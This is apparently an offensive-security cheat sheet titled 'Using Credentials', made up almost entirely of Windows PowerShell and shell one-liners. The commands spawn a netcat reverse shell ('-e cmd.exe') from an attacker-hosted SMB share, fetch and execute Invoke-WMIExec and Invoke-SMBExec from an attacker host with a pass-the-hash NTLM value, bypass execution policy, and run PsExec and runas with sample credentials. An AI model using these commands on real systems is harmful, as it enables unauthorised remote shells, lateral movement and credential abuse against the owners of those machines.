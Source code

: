 
## Using Credentials 

```powershell
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securepassword
Start-Process '//$source_ip/$smb_share/tools_windows/bin/nc.exe' -ArgumentList '-e cmd.exe $source_ip $source_port' -Credential $credential -NoNewWindow
```
```powershell
$username = '<username here>'
$password = '<password here>'
computer = '<hostname>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securepassword
[System.Diagnostics.Process]::Start('//$source_ip/$smb_share/tools_windows/bin/nc.exe','-e cmd.exe $source_ip $source_port', $credential.Username, $credential.Password, $computer)
```
```bash
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```
Requires .Net 3.5
```powershell
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $computer = $env:COMPUTERNAME; Add-Type -AssemblyName System.DirectoryServices.AccountManagement; $obj = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('machine',$computer); $obj.ValidateCredentials($username, $password); }"
```
Requires .Net 2.0
```powershell
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Start-Process -FilePath C:\Windows\System32\calc.exe -NoNewWindow -Credential $credential; }"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/Invoke-TheHash/Invoke-WMIExec.ps1'); Invoke-WMIExec -Target localhost -Username alice -Hash aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE -Command 'cmd' -verbose"
```
```bash
powershell.exe -noprofile -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/Invoke-TheHash/Invoke-SMBExec.ps1'); Invoke-SMBExec -Target localhost -Username alice -Hash aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE -Command 'cmd' -verbose"
```
```bash
//$source_ip/$smb_share/tools_windows/pstools/PsExec.exe -accepteula \\localhost -u alice -p aliceishere cmd
```
```bash
runas /profile /user:administrator cmd
```
```bash 
START /B cmd.exe
```
